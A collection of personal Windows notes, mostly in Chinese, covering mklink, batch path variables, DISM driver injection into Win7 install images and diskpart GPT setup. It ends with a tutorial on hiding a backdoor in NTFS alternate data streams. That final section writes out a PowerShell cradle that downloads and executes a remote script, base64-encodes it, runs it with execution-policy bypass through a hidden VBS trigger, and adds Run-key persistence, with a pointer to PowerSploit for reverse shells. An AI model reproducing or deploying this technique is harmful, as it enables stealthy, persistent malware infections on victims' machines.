







Windows
Windows spread log.
批处理.bat文件需要保存为ANSI编码格式否则运行时指令解释出乱码
鏈接的創建與刪除
mklink
查看幫助
MKLINK [[/D] | [/H] | [/J]] Link Target
/D Creates a directory symbolic link. Default is a file symbolic link.
/H Creates a hard link instead of a symbolic link.
/J Creates a Directory Junction.
Link specifies the new symbolic link name.
Target specifies the path (relative or absolute) that the new link refers to.
cmd /c mklink
查看幫助
MKLINK [[/D] | [/H] | [/J]] Link Target
/D 创建目录符号链接。默认为文件符号链接。
/H 创建硬链接，而不是符号链接。
/J 创建目录联接。
Link 指定新的符号链接名称。
Target 指定新链接引用的路径(相对或绝对)。
mklink /d node \\192.168.1.105\d$\node
建立node链接目录，指向远程的目标服务器上的d盘的node目录。
rmdir node
删除虚拟的链接目录，并不会删除远程文件夹真实文件，用del会删除远程的真实文件。
cmd中获取路径
echo 当前盘符：%~d0
echo 当前盘符和路径：%~dp0
echo 当前批处理全路径：%~f0
echo 当前盘符和路径的短文件名格式：%~sdp0
echo 当前CMD默认目录：%cd%
pause
win7安装盘中添加USB3驱动
win7安装盘中的文件boot.wim和install.wim是两个高度压缩的镜像文件, 安装操作系统的复制过程就是将镜像文件的内容解压复制, 添加驱动的过程就是将镜像文件挂载, 将驱动文件添加到挂载的目录中, 保存并卸载, 操作镜像文件要用windows自带的dism程序, 相应的帮助链接为:
DISM Image Management Command-Line Options | Microsoft Docs
DISM Driver Servicing Command-Line Options | Microsoft Docs
具体步骤如下:
新建一个临时工作目录如temp, 并在此目录下建立两个子目录windows和drivers
将安装盘(或ISO文件)下source/boot.wim和source/install.wim两个文件复制到temp目录下
将驱动Intel(R)_USB_3.0_xHCI_Driver_PV4.0.1.40.zip文件中的Drivers解压到temp/drivers/下
以管理员权限启动cmd并进入到temp目录下作为当前路径
查看镜像文件信息: Dism /Get-ImageInfo /ImageFile:boot.wim
应该其中会有两个镜像
索引:1
名称:Microsoft Windows PE (x64)
索引:2
名称:Microsoft Windows Setup (x64)
我们在启动安装过程时就需要这个驱动所以需要在索引2中添加
挂载索引2的镜像到temp/windows目录下: Dism /Mount-Image /ImageFile:boot.wim /Index:2 /MountDir:windows
将temp/drivers/目录下的驱动文件添加到镜像挂载的指定目录下 Dism /Image:windows /Add-Driver:drivers /recurse
保存并卸载 Dism /Unmount-Image /MountDir:windows /commit install.wim文件中存放着要安装的镜像, 查看镜像文件信息 Dism /Get-ImageInfo /ImageFile:install.wim
例如有4个索引的镜像其中4是
索引:1
名称:Windows 7 家庭普通版
索引:2
名称:Windows 7 家庭高级版
索引:3
名称:Windows 7 专业版
索引:4
名称:Windows 7 旗舰版
假如我们要安装旗舰版所以是挂载索引4 Dism /Mount-Image /ImageFile:install.wim /Index:4 /MountDir:windows
将temp/drivers/目录下的驱动文件添加到镜像挂载的指定目录下 Dism /Image:windows /Add-Driver:drivers /recurse
保存并卸载 Dism /Unmount-Image /MountDir:windows /commit
将这两个文件复制或移动到原来的路径覆盖掉原来的文件即可
temp目录删除即可
use EFI boot win7 install USB
如此这个U盘就可以在EFI模式下启动了
install windows use EFI need GPT partion disk, use diskpart to convert harddisk to GPT format
用windows安装盘启动电脑，到下面这个界面，按Shift+F10，就会启动具有管理员权限的CMD

输入:
diskpart
进入diskpart, 查看帮助, 输入
help
查看电脑中的所有硬盘, 输入
list disk
选择要操作的硬盘, 输入
select disk 0
其中的0是list disk命令显示的硬盘列表中显示的硬盘编号, 根据实际情况将0修改为对应的编号
删除原有的所有分区, 输入
clean
将硬盘转换为MBR分区模式则输入
convert mbr
将硬盘转换为GPT分区模式则输入
convert gpt
查看当前选中硬盘的所有分区, 输入
list partition
创建EFI分区，大小为100M
create partition efi size=100
创建MSR分区，微软默认大小是128M
create partition msr size=128
创建主分区，这里要注意数字按M计算，50000就是分区大小为50000M，可以根据自己实际情况调整
create partition primary size=50000
install windows use EFI need GPT partion disk, use diskpart to convert harddisk to GPT format
一个用ADS（供选数据流）隐藏Windows后门的方法
1 引言
隐藏windows病毒文件有很多方法，比如伪装成一个系统文件，或者取一个与系统文件很像的文件名例如svch0st.exe并且将其放在system32目录下。或者hook一些api并拦截其显示功能。这里介绍另一种方法，把一个后门隐藏在ADS (供选数据流/ alternate data stream)里面。请注意从win XP以后，微软已经禁止用户从ADS里直接执行程序，最近从Enigma0x3学到一个新的方法可以绕过这个限制。而且这个方法并不需要admin权限。
2 ADS (供选数据流/ alternate data stream)
NTFS使用Master File Table (MFT) 来管理文件。windows系统中的每个文件都对应一个MFT记录。而每一个MFT记录由若干个属性(attribute)组成，用来描述该文件的具体信息。比如 $FILE_NAME 属性描述了该文件的文件名和创建修改访问时间，而$DATA属性包含了该文件的具体内容。
举个例子，我现在有一个文本文件，名称为test.txt，文本内容为”Hello, world!”。

其MFT记录结构如图，$FILE_NAME属性包含了该文件名test.txt。 $DATA属性则包含了内容 “Hello, world!”。这里说个题外话，由于该内容长度小于1kb，所以文件的内容就直接存储在MFT记录里面了（称为resident）。如果内容长度大于1kb，文件内容会被存储在别的地方 （称为non-resident），在这种情况下$DATA属性只包含其存储地址。这里“Hello, world!”很短，所以直接保存在了MFT记录里面。
很多人想当然的认为一个文件只能有一个$DATA属性，这是错误的。在NTFS中，一个文件可以有多个$DATA属性。比如我现在想给test.txt加入一个名为ThisIsAnADS的$DATA属性：
c:\test>echo Hello, freebuf! > test.txt:ThisIsAnADS
那么，该文件的MFT记录就变成了下图所示

你可能发现了这两个$DATA属性还是略有不同的，第一个没有名称，而第二个有名称（ThisIsAnADS）！通常人们称第一个为主数据流（primary data stream ）。主数据流在文件创建的同时就被创建了，并且默认没有名称，所以也叫做未名数据流 （unnamed data stream）。第二个是我们后来创建的，并且赋予了名称（ThisIsAnADS）。这个就是供选数据流 （alternate data stream，ADS）。绝大多数用户只会和主数据流打交道，从某种意义上来说，ADS对用户是隐藏的。用常规的dir命令和windows文件管理器都没法发现ADS。而当我们查看文件内容的时候也仅仅显示主数据流的内容。
c:\test>dir test.txt
Volume in drive C is OS
Volume Serial Number is F467-BAF0
Directory of c:\test
2015-07-26 10:29 13 test.txt
1 File(s) 13 bytes
0 Dir(s) 42 991 456 256 bytes free
c:\test>type test.txt
Hello, world!
看！dir和type命令只显示了主数据流的长度和内容。但是我们可以使用dir /r 命令来列出ADS
c:\test>dir /r test.txt
Volume in drive C is OS
Volume Serial Number is F467-BAF0
Directory of c:\test
2015-07-26 10:29 13 test.txt
18 test.txt:ThisIsAnADS:$DATA
1 File(s) 13 bytes
0 Dir(s) 42 991 382 528 bytes free
我们也可以用powershell命令Get-Content来查看ADS的内容
PS C:\test> Get-Content test.txt -stream ThisIsAnADS
Hello, freebuf!
PS C:\test>
也许你会问，那ADS到底有什么作用哪？在实际应用中，操作系统和某些应用程序会用ADS来标记和分类文件，比如某些杀毒软件会用ADS来标记哪些文件已经被检查过了（也许我们可以自己设置ADS的内容来避免被查杀？）。IE还会用ADS来标记那些从Internet下载下来的文件。正好我刚下载了一个netcat， 查看一下nc.exe
c:\test>dir /r nc.exe
Volume in drive C is OS
Volume Serial Number is F467-BAF0
Directory of c:\test
2011-09-17 00:52 38 616 nc.exe
26 nc.exe:Zone.Identifier:$DATA
1 File(s) 38 616 bytes
0 Dir(s) 30 734 065 664 bytes free
有一个名为Zone.Identifier的ADS! 查看一下它的内容：
PS C:\test> Get-Content nc.exe -stream Zone.Identifier
[ZoneTransfer]
ZoneId=3
PS C:\test>
ZoneID=3表示这个文件来自Internet Zone。所以每次运行nc.exe，系统知道这个文件来自Internet，然后就会弹出一个警告

3 用ADS隐藏后门
既然ADS不被大多数用户所知，而且常规的系统命令和文件管理器都检查不到其存在，那么我们可以把后门放在ADS以起到隐藏的目的。让我们先试着把netcat的二进制内容存到test.txt的一个叫nc.exe的ADS里面
c:\test>type nc.exe > test.txt:nc.exe
c:\test>dir /r test.txt
Volume in drive C is OS
Volume Serial Number is F467-BAF0
Directory of c:\test
2015-07-26 11:19 13 test.txt
38 616 test.txt:nc.exe:$DATA
18 test.txt:ThisIsAnADS:$DATA
1 File(s) 13 bytes
0 Dir(s) 42 990 366 720 bytes free
可以写入，没有问题。试着执行之
c:\test>start test.txt:nc.exe
Access is denied.
但是执行不成功。。。因为从windows xp以后微软就禁止用户从ADS里执行程序了。写入，读出操作都可以，但是不允许执行。
换一个思路，既然允许写和读，那么我们可以在ADS里面写入脚本，然后用脚本解释器(Wscript.exe)来运行该脚本。Wscript.exe默认支持js, vbs等，但是我更偏爱powershell的简单高效。所以准备在一个文件中写入2个ADS，一个包含powershell脚本后门，用于从网上下载和执行恶意脚本。一个包含VBS脚本，用于触发powershell脚本。具体设计如下图，包括3部分

1. 恶意脚本： 一个提供真正的恶意功能的powershell脚本，比如反弹cmd shell等等，具体如何用powershell实现远控功能，请参照https://github.com/mattifestation/PowerSploit。 这里为了演示的目的，我们的”恶意脚本”只会弹出一个对话框，显示”Infected”。该文件名为malware.ps1，存放于 http://127.0.0.1:8123/malware.ps1
2. 下载器： 该下载器也是一段powershell脚本，用来下载并执行恶意脚本。其实就一句话 "IEX ((New-Object Net.WebClient).DownloadString('http://127.0.0.1:8123/malware.ps1'));" 我们把它base64编码[System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes("IEX ((New-Object Net.WebClient).DownloadString('http://127.0.0.1:8123/malware.ps1'));"))得到base64编码结果。然后把 powershell.exe -ep Bypass -noexit -enc [base64编码结果] 写入test.txt:1
3. 触发器： 该触发器是一段VB脚本，会开一个cmd运行test.txt:1 里的脚本。由于我们要用wscript.exe 来运行这个ADS, 而wscript.exe会检查脚本文件的后缀名，所以这个ADS的命名必须以.vbs结尾。 具体内容为 Dim objShell:Set objShell = WScript.CreateObject("WScript.Shell"):command = "cmd /C for /f ""delims=,"" %i in (C:\\test\\test.txt:1) do %i":objShell.Run command, 0:Set objShell = Nothing，将其写入test.txt:2.vbs

用wscript.exe运行一下，成功！进程管理器显示该进程名为powershell.exe

当然，还可以把wscript.exe test.txt:2.vbs 放在注册表与自动启动相关的键值里，比如HKCU\Software\Microsoft\Windows\CurrentVersion\Run 等，以实现开机自启动。
在这个例子里，我们把ADS加在了一个文本文件(test.txt)上。其实在NTFS中，目录和文件的MFT记录结构是一样的。所以我们也可以把ADS加在目录上，比如$env:UserProfile\AppData 。